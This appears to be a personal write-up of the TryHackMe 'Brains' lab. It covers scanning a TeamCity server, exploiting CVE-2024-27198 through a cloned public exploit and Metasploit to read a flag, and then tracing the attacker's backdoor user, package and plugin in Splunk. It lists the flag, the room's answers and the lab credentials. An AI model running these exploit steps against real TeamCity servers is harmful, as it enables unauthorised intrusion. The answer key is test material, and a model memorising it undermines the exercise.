 #CTF #Easy #Subscribers #Splunk 

https://tryhackme.com/room/brains


```
10.10.32.212
nano /etc/hosts      brains.thm

## nmap 

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
|_http-title: Maintenance
50000/tcp open  ibm-db2
MAC Address: 02:01:7C:33:DE:65 (Unknown)


## gobuster

gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -t64 --no-error | lolcat

/server-status


## ffuf = nothing


http://brains.thm
nothing

http://brains.thm:50000


http://brains.thm:50000/login.html

Login page
TeamCity Version 2023.11.3 (build 147512)

https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/

- an alternative path issue
- authentication bypass vulnerability in the web component of TeamCity that arises from a path traversal issue

//https://github.com/W01fh4cker/CVE-2024-27198-RCE
//git clone https://github.com/W01fh4cker/CVE-2024-27198-RCE.git
//pip install requests urllib3 faker


## msfconsole
use 4
show options
set RHOST 10.10.32.212
set RPORT 50000
run

meterpreter> ls
cd ~
ls
cd /home/ubuntu
ls
cat flag.txt

THM{faa9bac345709b6620a6200b484c7594}
```


```
What is the content of flag.txt in the user's home folder?

THM{faa9bac345709b6620a6200b484c7594}
```


## blue team

Lab Connection

Before moving forward, deploy the machine. When you deploy the machine, it will be assigned an IP address: `10.10.32.212`. The Splunk instance will  be accessible in about **5 minutes** and can be accessed at `10.10.32.212:8000` using the credentials mentioned below:
```
splunk : analyst123


search & reporting > data summary > auth_logs > sourcetypes

change time to Today

10 more fields > check name, USER

fwupd-refresh
ssl-cert
eviluser
ubuntu


back to data summary > packages

change time from Last 24 hrs to 'Since 7/4/24' 
click on 'installed' add to search 

7/4/24 10:58:25  installed datacollector


data summary > sources/teamcity-activities.log

source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" plugin

change date to 7/4/2024 - 7/5/2024

AyzzbuXY.zip


```



```
What is the name of the backdoor user which was created on the server after exploitation?

eviluser

What is the name of the malicious-looking package installed on the server?

datacollector

What is the name of the plugin installed on the server after successful exploitation?

AyzzbuXY.zip

```


- needed ONLY for splunk !
- https://cyber-owl.medium.com/thm-brains-walkthrough-easy-5bb93c1b1c1d


120 points 

![brains](https://tryhackme-images.s3.amazonaws.com/room-icons/645b19f5d5848d004ab9c9e2-1721215647417)

































